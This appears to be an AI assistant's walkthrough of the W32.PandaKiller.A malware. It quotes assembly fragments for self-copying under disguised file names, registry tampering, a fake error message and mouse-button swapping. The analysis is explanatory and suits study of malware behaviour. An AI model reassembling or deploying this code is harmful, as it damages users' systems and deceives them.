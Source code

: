 
Here’s a structured analysis of the **W32.PandaKiller.A** malware, with explanations illustrated by snippets of the original assembly code.

----------

## **1. Directory Creation**

The malware creates two directories:

-   `C:\PandaKiller`
-   `%windir%\Panda`

This is done using the `CreateDirectoryA` function:

```assembly
push 00000000h
push offset rep1
call CreateDirectoryA           ; Creates C:\PandaKiller

push 260
push offset targ1
call GetWindowsDirectoryA
push offset rep2
push offset targ1
call lstrcat
push offset targ1
call CreateDirectoryA           ; Creates %windir%\Panda
```

----------

## **2. Self-Copying Mechanism**

The malware copies itself to multiple locations:

-   `%windir%\PandaKiller.exe`
-   `%system%\Monopoly.exe`
-   `%windir%\Panda\Stages.exe`

This is achieved using `CopyFileA`:

```assembly
push 00000000h
call GetModuleHandleA
push 260
push offset moi
push eax
call GetModuleFileNameA         ; Get the current executable's path

push 260
push offset targ1
call GetWindowsDirectoryA
push offset copie1
push offset targ1
call lstrcat
push 00000000h
push offset targ1
push offset moi
call CopyFileA                  ; Copy to %windir%\PandaKiller.exe
```

----------

## **3. Creating a Text File with a Message**

The malware creates a file `C:\PandaKiller\EMail.txt` and writes a message inside:

```assembly
push 00000000h
push 00000080h
push 00000002h
push 00000000h
push 00000001h
push 40000000h
push offset fichier
call CreateFileA                ; Create the file C:\PandaKiller\EMail.txt

mov  [fh],eax
push 00h
push offset octets
push taille
push offset TXT
push [fh]
call WriteFile                  ; Write content to the file

push [fh]
call CloseHandle                ; Close the file
```

The content written to the file:

```assembly
	TXT     db "[PandaKiller]",0dh,0ah
        db "Contact: Panda34@caramail.com",0dh,0ah
        db "W32.PandaKiller.A by PandaKiller (c)2000",00h
```

----------

## **4. Registry Modification**

The malware modifies the Windows registry to change the **Registered Owner** to `"PandaKiller"`.

```assembly
push offset p
push 0
push 1F0000h + 1 + 2h
push 0
push 0
push 0
push offset CLE
push 80000002h                  ; HKEY_LOCAL_MACHINE
call RegCreateKeyExA

push 05h
push offset DONNEE              ; "PandaKiller"
push 01h
push 0
push offset NOM                 ; RegisteredOwner
push p
call RegSetValueExA             ; Set registry value

push 0
call RegCloseKey                ; Close registry
```
----------

## **5. Displaying a Fake Error Message**

The malware displays a fake error message to deceive the user.

```assembly
push 35h
push offset TITRE
push offset TEXTE
push 00h
call MessageBoxA
```

```assembly
TITRE   db "By PandaKiller on 12/10/00",00h
TEXTE   db "****************************",10,13
        db "This file is not valid!",10,13
        db "****************************",00h` 
```
----------

## **6. Swapping Mouse Buttons**

If the user clicks "Retry," the malware swaps the mouse buttons using `SwapMouseButton`, reversing left and right clicks.

```assembly
SOURIS: push 01h
        call SwapMouseButton
```

----------

## **7. Execution Termination**

Finally, the malware ends execution using `ExitProcess`.

```assembly
		FIN:
        push 0
        call ExitProcess` 
```
----------

This structured analysis illustrates how **W32.PandaKiller.A** operates, showing its **directory creation, self-copying, registry modification, deceptive messages, and user interaction interference**. Let me know if you need further clarifications! 🚀
